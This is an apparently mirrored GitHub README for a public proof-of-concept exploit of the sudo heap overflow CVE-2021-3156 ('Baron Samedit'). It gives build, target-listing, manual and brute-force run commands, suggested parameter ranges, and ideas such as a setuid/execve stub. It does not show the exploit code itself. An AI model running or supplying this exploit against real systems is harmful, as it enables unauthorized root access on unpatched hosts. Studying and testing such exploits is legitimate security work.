 # CVE-2021-3156

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/blasty](https://github.com/blasty) |
| Url      | [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)                                               |
| Stars    | 882                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-3156 PoC

## Introduction

This is an exploit for the `CVE-2021-3156` sudo vulnerability (dubbed [Baron Samedit](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) by Qualys).

## Usage

build:
```
$ make
```


list targets:
```
$ ./sudo-hax-me-a-sandwich
```

run:
```
$ ./sudo-hax-me-a-sandwich <target_number>
```

manual mode:
```
$ ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

## Bruteforce target finding (experimental)

Make sure you have [GNU parallel](https://ftpmirror.gnu.org/parallel/parallel-latest.tar.bz2) installed.

```
$ make brute
$ ./brute.sh <smash_start> <smash_end> <null_start> <null_end> <lc_start> <lc_end>
```

some defaults to try:
```
$ ./brute.sh 90 120 50 70 150 300
```

Will eat up all available cores. Don't try to netflix & brute.

## Contributing

Send (sensible) PR's, I might merge.

Some ideas:
* More targets
* Target finding
* Other exploitation strategies
* More self contained functionality:
    * Embed shared library hax.c (Make it small please, ELF golf + asm setuid/execve stub)
    * Add mkdir logic to hax.c
* Directory/shared library cleanup



## Get the content

```
git clone https://github.com/blasty/CVE-2021-3156
cd CVE-2021-3156
```

{% embed url="https://github.com/blasty/CVE-2021-3156" %}

<figure><img src="https://avatars.githubusercontent.com/u/101374?v=4" alt=""><figcaption><p>blasty</p></figcaption></figure>
